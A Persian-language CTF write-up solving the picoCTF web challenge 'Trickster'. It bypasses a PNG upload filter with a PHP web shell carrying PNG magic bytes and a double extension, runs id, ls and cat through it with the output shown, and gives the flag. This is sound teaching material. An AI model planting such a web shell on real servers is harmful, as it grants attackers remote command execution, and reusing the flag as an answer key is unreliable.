

---
tags:
  - WEB
---
# Trickster

 چالش وب اوردیم براتووون!!
 [picoCTF](https://play.picoctf.org/practice/challenge/428) 
 و قراره راه حلش رو شرح بدیم.

<center>

</center>

سورس کد فرانت در مرورگر:
``` html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>به برنامه پردازش PNG من خوش آمدید</h1>
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```

هیچ اطلاعاتی درباره محل ذخیره فایل دریافت نمی‌کنیم، اما معمولاً فایل‌های آپلودی در دایرکتوری /uploads ذخیره می‌شوند.

برای تأیید محل ذخیره‌سازی، یک فایل آزمایشی (مثلاً test_file.png) آپلود می‌کنیم و سپس آدرس زیر را در مرورگر تست می‌کنیم:
``` url
http://atlas.picoctf.net:53321/uploads/test_file.png
```

فایل نمایش داده می‌شود! این تأیید می‌کند که فایل‌های آپلودی در دایرکتوری /uploads ذخیره می‌شوند و قابل دسترسی هستند.

حالا که می‌دانیم فایل‌ها در /uploads ذخیره می‌شوند، سعی می‌کنیم یک وب‌شل (Web Shell) را به‌عنوان یک فایل PNG آپلود کنیم. وب‌شل ما باید پسوند .png داشته باشد و شامل بایت‌های جادویی (Magic Bytes) PNG باشد تا به‌عنوان یک فایل PNG معتبر شناسایی شود. کد وب‌شل به این صورت است:

``` php
�PNG<?php system($_GET["cmd"]); ?>
```

با استفاده از ابزار xxd، ساختار هگزادسیمال فایل را بررسی می‌کنیم:
``` hex
00000000: 8950 4e47 3c3f 7068 7020 7379 7374 656d  .PNG<?php system
00000010: 2824 5f47 4554 5b22 636d 6422 5d29 3b20  ($_GET["cmd"]); 
00000020: 3f3e 0a
```

بایت‌های ابتدایی (89 50 4E 47) نشان‌دهنده یک فایل PNG معتبر است. این فایل را با نام web_shell.png.php ذخیره کرده و از طریق فرم وب‌سایت آپلود می‌کنیم.

پس از آپلود، وب‌شل در آدرس زیر قابل دسترسی است:

``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php
```

برای تست، یک دستور ساده مثل id را اجرا می‌کنیم:
``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=id
```

خروجی :
``` text
�PNGuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

وب‌شل کار می‌کند! حالا می‌توانیم دستورات را از طریق پارامتر cmd اجرا کنیم.

معمولاً دایرکتوری اصلی وب‌سرور در /var/www/html قرار دارد. برای بررسی محتویات این دایرکتوری، دستور ls را اجرا می‌کنیم:

خروجی:
``` text
�PNGtotal 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       31 Jul 13 08:50 uploads
```

فایل GNTDOMBWGIZDE.txt مشکوک به نظر می‌رسد و ممکن است حاوی پرچم باشد.

برای خواندن فلگ به url زیر می رویم.
``` url
http://atlas.picoctf.net:53321/uploads/web_shell.png.php?cmd=cat%20/var/www/html/GNTDOMBWGIZDE.txt
```

و فلگ پیدا شد !

``` text
�PNG/* picoCTF{png_trickster_12345678} */
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{png_trickster_12345678}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)
